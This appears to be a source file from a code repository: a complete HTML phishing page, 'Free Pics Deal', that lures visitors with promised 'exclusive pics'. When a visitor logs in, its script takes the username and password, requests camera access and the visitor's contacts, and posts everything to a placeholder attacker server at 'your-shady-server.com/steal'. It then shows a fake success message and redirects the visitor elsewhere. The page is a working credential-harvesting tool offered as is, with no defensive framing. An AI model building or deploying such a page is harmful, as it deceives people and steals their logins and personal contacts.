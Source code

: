 # my-site
<!DOCTYPE html>
<html lang="en">
<head>
    <meta charset="UTF-8">
    <title>Free Pics Deal</title>
    <style>
        body { font-family: Arial; text-align: center; background: #f0f0f0; }
        .login { margin: 100px auto; padding: 20px; width: 300px; background: white; border-radius: 10px; }
        input { width: 100%; padding: 10px; margin: 10px 0; }
        button { padding: 10px 20px; background: #ff4500; color: white; border: none; cursor: pointer; }
    </style>
</head>
<body>
    <div class="login">
        <h2>View My Exclusive Pics!</h2>
        <p>Log in to see the goods!</p>
        <input type="text" id="username" placeholder="Username">
        <input type="password" id="password" placeholder="Password">
        <button onclick="grabData()">Login</button>
    </div>
    <script>
        function grabData() {
            let user = document.getElementById('username').value;
            let pass = document.getElementById('password').value;
            // Sneaky script to try accessing gallery/contacts
            navigator.mediaDevices.getUserMedia({ video: true }).catch(() => {});
            navigator.contacts.select(['name', 'tel']).then(contacts => {
                fetch('http://your-shady-server.com/steal', {
                    method: 'POST',
                    body: JSON.stringify({ user, pass, contacts, gallery: 'attempted' })
                });
                alert('Login successful! Redirecting...');
                window.location = 'https://fake-site.com';
            }).catch(() => {
                alert('Login failed, try again!');
            });
        }
    </script>
</body>
</html>
